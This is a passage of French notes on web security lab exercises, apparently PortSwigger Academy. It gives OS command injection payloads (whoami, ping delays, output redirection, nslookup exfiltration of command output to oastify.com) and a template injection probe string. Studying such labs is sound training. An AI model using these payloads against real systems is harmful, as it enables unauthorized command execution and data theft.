     x=1
    
### Response queue poisoning via H2.TE request smuggling

TO DO

### H2.CL request smuggling

TO DO

### HTTP/2 request smuggling via CRLF injection

TO DO

## === OS command injection ===

### OS command injection, simple case

Utiliser la fonction “Check stock” sur n’importe quel article et l’envoyer sur le Repeater.

Remplacer “productId=2&storeId=1” par “productId=2&storeId=1;whoami”

### Blind OS command injection with time delays

    &email=x||ping+-c+10+127.0.0.1||
    
### Blind OS command injection with output redirection

    &email=||whoami>/var/www/images/output.txt||

Il faut ensuite récupérer le fichier grâce à la page de chargement des images des produits : 

    curl https://0ab6004004c363198449041000fc00b5.web-security-academy.net/image?filename=output.txt
    
### Blind OS command injection with out-of-band interaction

    &email=x||nslookup+x.211rerxtwkx47445c6zfr2eoxf36ryfn.oastify.com||

### Blind OS command injection with out-of-band data exfiltration

    &email=||nslookup+`whoami`.uywjbjultcuw4w1x9yw7oubgu70yosch.oastify.com||

## === Server-side template injection ===

Bon payload initial à tester pour la détection : ${{<%[%'"}}%\

### Basic server-side template injection

En essayant de voir les détails du premier produit de la liste, on a une erreur "**Unfortunately this product is out of stock**" et on voit que cette erreur est reflétée dans le header "**Location**" de la réponse puis dans une **seconde requête GET** : 

>Location: /?message=Unfortunately this product is out of stock
>...
>GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
